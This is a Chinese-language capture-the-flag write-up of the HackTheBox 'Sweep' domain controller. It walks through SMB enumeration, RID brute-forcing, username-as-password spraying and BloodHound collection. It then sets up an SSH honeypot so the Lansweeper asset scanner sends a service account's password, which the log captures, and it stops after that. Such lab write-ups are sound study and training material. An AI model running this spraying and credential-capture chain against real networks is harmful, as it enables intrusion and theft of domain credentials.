








## 机器简介
一台中等难度的dc，来自vulnhub，但是最近并入了htb，所以我乐意在闲暇时间玩一玩

机器在开始前附带信息如下
```zsh
用户标志位于 C：\ 中，而不是用户的主目录中。请记住，HTB 实验室阻止了到玩家 VPN 隧道 IP 的 TCP 端口 22 流量。
```
将变量脚本生成好，并且解析域名并配置krb5.conf
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo ip=10.129.203.20>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb $ip --generate-hosts-file hostname
SMB         10.129.203.20   445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domin:sweep.vl) (signing:True) (SMBv1:False) (Null Auth:True)

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo domain=sweep.vl>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo FQDN=INVENTORY.sweep.vl>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ cat start.sh 
ip=10.129.203.20
domain=sweep.vl
FQDN=INVENTORY.sweep.vl

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ ping $ip
PING 10.129.203.20 (10.129.203.20) 56(84) bytes of data.
64 bytes from 10.129.203.20: icmp_seq=1 ttl=127 time=237 ms
64 bytes from 10.129.203.20: icmp_seq=2 ttl=127 time=234 ms
^C
--- 10.129.203.20 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1002ms
rtt min/avg/max/mdev = 234.054/235.340/236.626/1.286 ms

```
## 初步打点
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ rustscan -a $ip
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/home/wackymaker/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.203.20:53
Open 10.129.203.20:81
Open 10.129.203.20:82
Open 10.129.203.20:88
Open 10.129.203.20:135
Open 10.129.203.20:139
Open 10.129.203.20:389
Open 10.129.203.20:445
Open 10.129.203.20:464
Open 10.129.203.20:593
Open 10.129.203.20:636
Open 10.129.203.20:3268
Open 10.129.203.20:3269
Open 10.129.203.20:3389
Open 10.129.203.20:5985
```
看样子是开了81，82的域控，详细扫描一下81，82
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nmap -p 81,82 -sC -sV --min-rate=10000 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-27 09:39 EDT
Nmap scan report for INVENTORY.sweep.vl (10.129.203.20)
Host is up (0.24s latency).

PORT   STATE SERVICE  VERSION
81/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Not valid before: 2021-11-21T09:22:27
|_Not valid after:  2121-12-21T09:22:27
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.95 seconds
```
是个很兼容域控的管理平台，没有枚举到存在默认界面或者可以利用的历史漏洞

检查匿名特权
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb "$ip" -u guest -p '' --shares
SMB         10.129.203.20   445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domin:sweep.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.203.20   445    INVENTORY        [+] sweep.vl\guest: 
SMB         10.129.203.20   445    INVENTORY        [*] Enumerated shares
SMB         10.129.203.20   445    INVENTORY        Share           Permissions     Remark
SMB         10.129.203.20   445    INVENTORY        -----           -----------     ------
SMB         10.129.203.20   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.129.203.20   445    INVENTORY        C$                              Default share
SMB         10.129.203.20   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.129.203.20   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.129.203.20   445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.129.203.20   445    INVENTORY        NETLOGON                        Logon server share 
```
smb存在匿名，DefaultPackageShare$特殊目录当中只有一张图片



元数据没有信息，既然有匿名权限则rid爆破
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb $ip -u guest -p '' --rid-brute
SMB         10.129.203.20   445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domin:sweep.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.203.20   445    INVENTORY        [+] sweep.vl\guest: 
SMB         10.129.203.20   445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.129.203.20   445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.203.20   445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.203.20   445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.203.20   445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.129.203.20   445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.129.203.20   445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.129.203.20   445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```
提取用户名字典
```zsh
Administrator
Guest
krbtgt
INVENTORY$
jgre808
bcla614
hmar648
jgar931
fcla801
jwil197
grob171
fdav736
jsmi791
hjoh690
svc_inventory_win
svc_inventory_lnx
intern
```
无预认证不存在，尝试爆破同用户密码
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb $ip -u users -p users 
·················
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\jwil197:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\grob171:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\fdav736:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\jsmi791:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\hjoh690:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\svc_inventory_win:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [-] sweep.vl\svc_inventory_lnx:intern SessionError 
SMB         10.129.203.20   445    INVENTORY        [+] sweep.vl\intern:intern
```
在爆破了两分钟后获得用户intern的凭证信息
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo user=intern>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo pass=intern>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc smb $ip -u $user -p $user --shares
SMB         10.129.203.20   445    INVENTORY        [*] Windows Server 2022 Build 20348 x64 (name:INVENTORY) (domin:sweep.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.203.20   445    INVENTORY        [+] sweep.vl\intern:intern 
SMB         10.129.203.20   445    INVENTORY        [*] Enumerated shares
SMB         10.129.203.20   445    INVENTORY        Share           Permissions     Remark
SMB         10.129.203.20   445    INVENTORY        -----           -----------     ------
SMB         10.129.203.20   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.129.203.20   445    INVENTORY        C$                              Default share
SMB         10.129.203.20   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.129.203.20   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.129.203.20   445    INVENTORY        Lansweeper$     READ            Lansweeper Actions
SMB         10.129.203.20   445    INVENTORY        NETLOGON        READ            Logon server share 
SMB         10.129.203.20   445    INVENTORY        SYSVOL          READ            Logon server share 


┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ nxc winrm $ip -u $user -p $user
WINRM       10.129.203.20   5985   INVENTORY        [*] Windows Server 2022 Build 20348 (name:INVENTORY) (domain:sweep.vl) 
WINRM       10.129.203.20   5985   INVENTORY        [-] sweep.vl\intern:intern

```
没有winrm权限，新权限能查看的Lansweeper$目录并没有有意思的内容，放猎犬
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ bloodhound-python -d $domain -c ALL -u $user -p $pass -ns $ip --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sweep.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 17 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: inventory.sweep.vl
INFO: Done in 00M 49S
INFO: Compressing output into 20250827100014_bloodhound.zip
```
这个用户没有出站，但是能看到有个额外的域管，或许后面会有用



## ssh蜜罐
这个用户局外没什么用了，用来登陆管理平台试试



这个用户并不够权限执行我枚举到的后台shell利用



在上方的扫描凭据接口，我找到了一些凭据，但是都通过加密，需要凭据验证

[reddit](https://www.reddit.com/r/sysadmin/comments/926gfu/lansweeper_credentialssecurity_question/?tl=zh-hans)的这个用户发言让我理解了该做什么，Lansweeper 将使用 Kerberos 身份验证，这样凭据本身就不会被发送到被扫描的计算机，但是 Linux 不具备这种配置，它所作的只是利用我们指定的凭据进行ssh登陆而已，所以我们可以配置一个蜜罐用于劫持登陆

这是个小型的ssh蜜罐
```zsh
https://github.com/jaksi/sshesame
```
我们将沙箱配置在2222端口上，因为靶机已经提示了配置了22的防火墙
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ vim server.conf

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ cat server.conf 
server:
  listen_address: 10.10.16.22:2222

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ ./sshesame-linux-amd64 --config server.conf 
INFO 2025/08/27 10:23:01 No host keys configured, using keys at "/home/wackymaker/.local/share/sshesame"
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_rsa_key" not found, generating it
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_ecdsa_key" not found, generating it
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_ed25519_key" not found, generating it
INFO 2025/08/27 10:23:01 Listening on 10.10.16.22:2222

```
在扫描凭证-添加扫描目标中，选择扫描ip范围，选定我们蜜罐的范围，并选择2222端口（只显示22是因为它只显示两位数字）



并且在扫描凭据这里，将凭据映射绑定到ip范围的linux主机上，这样它就会利用保存凭证进行ssh登陆我们的蜜罐



回到扫描目标开始扫描并返回蜜罐等待

```zsh
┌──(wackymaker?kali)-[~/tmp/hackthebox/sweep]
└─$ ./sshesame-linux-amd64 --config server.conf 
INFO 2025/08/27 10:23:01 No host keys configured, using keys at "/home/wackymaker/.local/share/sshesame"
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_rsa_key" not found, generating it
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_ecdsa_key" not found, generating it
INFO 2025/08/27 10:23:01 Host key "/home/wackymaker/.local/share/sshesame/host_ed25519_key" not found, generating it
INFO 2025/08/27 10:23:01 Listening on 10.10.16.22:2222
WARNING 2025/08/27 10:33:50 Failed to accept connection: Failed to establish SSH server connection: EOF
WARNING 2025/08/27 10:34:00 Failed to accept connection: Failed to establish SSH server connection: ssh: disconnect, reason 11: Session closed
2025/08/27 10:34:01 [10.129.203.20:61012] authentication for user "svc_inventory_lnx" without credentials rejected
2025/08/27 10:34:01 [10.129.203.20:61012] authentication for user "svc_inventory_lnx" with password "0|5m-U6?/uAX" accepted
2025/08/27 10:34:01 [10.129.203.20:61012] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
2025/08/27 10:34:02 [10.129.203.20:61012] [channel 0] session requested
2025/08/27 10:34:02 [10.129.203.20:61012] [channel 0] command "uname" requested
2025/08/27 10:34:02 [10.129.203.20:61012] [channel 0] closed
2025/08/27 10:34:02 [10.129.203.20:61012] connection closed
2025/08/27 10:34:03 [10.129.203.20:61014] authentication for user "svc_inventory_lnx" without credentials rejected
2025/08/27 10:34:04 [10.129.203.20:61014] authentication for user "svc_inventory_lnx" with password "0|5m-U6?/uAX" accepted
2025/08/27 10:34:04 [10.129.203.20:61014] connection with client version "SSH-2.0-RebexSSH_5.0.8372.0" established
2025/08/27 10:34:04 [10.129.203.20:61014] [channel 0] session requested
2025/08/27 10:34:04 [10.129.203.20:61014] [channel 0] PTY using terminal "xterm" (size 80x25) requested
2025/08/27 10:34:05 [10.129.203.20:61014] [channel 0] shell requested
2025/08/27 10:34:05 [10.129.203.20:61014] [channel 0] input: "smclp"
2025/08/27 10:34:05 [10.129.203.20:61014] [channel 0] input: "show system1"
WARNING 2025/08/27 10:34:15 Error sending CRLF: EOF
2025/08/27 10:34:15 [10.129.203.20:61014] [channel 0] closed
2025/08/27 10:34:15 [10.129.203.20:61014] connection closed
```
成功劫持用户凭证
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo user1=svc_inventory_lnx>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ echo pass1='0|5m-U6?/uAX'>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ vim start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/sweep]
└─$ . start.sh 

